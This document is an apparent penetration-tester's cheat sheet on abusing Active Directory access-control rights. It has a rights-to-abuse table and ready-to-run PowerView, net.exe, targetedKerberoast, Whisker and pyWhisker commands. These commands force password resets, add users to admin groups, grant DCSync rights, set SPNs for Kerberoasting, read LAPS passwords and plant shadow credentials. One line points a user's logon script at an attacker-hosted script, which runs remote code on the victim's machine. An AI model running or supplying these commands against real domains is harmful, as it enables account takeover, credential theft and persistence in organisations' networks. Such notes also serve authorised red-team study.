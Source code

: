```yaml
---
title: DACL Abuse
tags:
  - dacl
  - activedirectory
---
```


# ACLs Abuse Table

| ACL/ACE                                                                               | Object   | Permission                          | Abuse                                                                                        | ScreenShot                          |
| ------------------------------------------------------------------------------------- | -------- | ----------------------------------- | -------------------------------------------------------------------------------------------- | ----------------------------------- |
| **GenericAll**                                                                        | User     | Full rights                         | - [[#Force Change User Password]]<br>- [[#Targeted Kerberoast]]<br>- [[#Shadow Credentials]] | ![](GenericAll_user.PNG)            |
| **GenericAll**                                                                        | Group    | Full rights                         | [[#Add Users to Group]]                                                                      | ![](GenericAll_Group.PNG)           |
| **GenericAll**                                                                        | Computer | Full rights                         | [[RBCD\|resource-based constrained delegation]]                                              | ![](GenericAll_Computer.PNG)        |
| **GenericWrite\WriteProperty**                                                        | User     | Write/update object's attributes    | - [[#Targeted Kerberoast]]<br>- [[#Overwrite Logon Script]]                                  | ![](GenericWrite.PNG)               |
| **GenericWrite**                                                                      | Group    | Ability to self add to group        | - [[#Add Users to Group]]                                                                    | ![](GenericWrite_Group.PNG)         |
| **GenericWrite<br>WriteProperty**                                                     | Computer | Write/update object's attributes    | - [RBCD](#resource-based-constrained-delegation)                                             |                                     |
| **GenericWrite</br>AllExtendedWrite</br>GenericAll</br>WriteOwner</br>WriteProperty** | GPO      | Write object's properties           | - [[[Add self to local admin](#gpo-abuse-with-powerview)]]                                   |                                     |
| **WriteDACL**                                                                         | Domain   | modify object's ACE (full control)  | - [[#Add DCSync Privilege to object]]                                                        |                                     |
| **WriteOwner**                                                                        | User     | change owner/password               | - [[#Change password with credential\|Change User's Password with Credential]]               |                                     |
| **Self-Membership/Self**                                                              | Group    | ability to add ourself to the group | - [[#Add Users to Group\|Self Add to Group]]                                                 |                                     |
| **ExtendedRights**                                                                    | User     | change user's password              | - [[#Force Change User Password]]                                                            | ![](AllExtendedRights.PNG)          |
| **ExtendedRights**                                                                    | Group    | Read LAPS Password                  | - [[#Read LAPS]]                                                                             |                                     |
| **User-Force-Change-Password**                                                        | User     | change user's password              | - [[#Force Change User Password]]                                                            | ![](Force-Change-User-Password.PNG) |
# ACLs/ACEs Abuse
### Force Change User Password

>[!note]
>This doesn't require you to know the owned user's credential

```powershell
# PowerView
Set-DomainUserPassword -Identity studentadmin -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!')
```

### Change password with credential
_Note: Need to know owned user's password_
```powershell
# Create PSCredential Object
$username='contoso\administrator'
$password=ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!'
$cred = New-Object System.Management.Automation.PSCredential($username,$password)

# Change password with PSCredential
Set-DomainUserPassword -Identity studentadmin -Domain contoso.local -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'password123!') -Credential $cred
```

### Targeted Kerberoast
This technique will update `ServicePrincipalName` of a user object. Make sure to have a write permission on the user's attributes.
```powershell
# Set SPN
## Windows
Set-DomainObject -Identity sqlsvc -Set @{serviceprincipalname='my/sqlspn'}

# Clear SPN (OPSEC)
Set-DomainObject -Identity sqlsvc -Clear serviceprincipalname
```

There is also a repo [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to automatically discover ACLs from the current user context against other domain objects looking for _Write_ permission on `servicePrincipalName` attribute. 
```bash
python3 targetedKerberoast.py -u jsparrow -p Password123 -d range.net --dc-ip 10.10.10.10
```

### Add DCSync Privilege to object
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=contoso,DC=local" -PrincipalIdentity studentuser -Rights DCSync
```

### Add Users to Group
This command will add specific principal to a group that exists in the domain. _Note that there are several tools to perform this. Below are some of the methods that can be used. Checkout this cool tool [bloodyAD](https://github.com/CravateRouge/bloodyAD)_
```powershell
# PowerView
Add-DomainGroupMember -Identity cadmins -Members lowpriv

# net.exe
net.exe group 'cadmins' lowpriv /add /domain
```

### Overwrite Logon Script
Logon Script will run everytime user logged in._(note: use ad module)_
```powershell
Set-ADObject -SamAccountName  -PropertyName scriptpath -PropertyValue "\\attackerip\script.ps1"
```

### Read LAPS
This will only possible if you have _AllExtendedRights_ permission on a computer object.
```powershell
# PowerView
Get-DomainComputer -Properties ms-mcs-admpwd
Get-DomainComputer -LAPS
```

### Shadow Credentials
There is an attribute called `msDS_KeyCredentialLink` where raw public keys can be set. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has a matching private key, and a TGT will be sent if there is a match. The attribute could be controlled if the controlled account has a privilege to write on the account attributes. 
```bash
# Whisker
Whisker.exe add /target:lowpriv /domain:range.net /dc:192.168.86.182 /path:cert.pfx /password:"pfx-password"

# pyWhisker (list certificates)
py pywhisker.py -d "range.net" -u "rangeadm" -p "Password123" -t "lowpriv" --action list

# pyWhisker (modify msDS-KeyCredentialLink)
py pywhisker.py -d "range.net" -u "rangeadm" -p "Password123" -t "lowpriv" --action add
```

Once you have obtained the certificate, it can further use the [Pass-The-Certificate](#pass-the-certificate) attack to authenticate. 

> [!References]
>- https://pentestlab.blog/2022/02/07/shadow-credentials/
>- https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials
>- https://github.com/ShutdownRepo/pywhisker
>- https://github.com/eladshamir/Whisker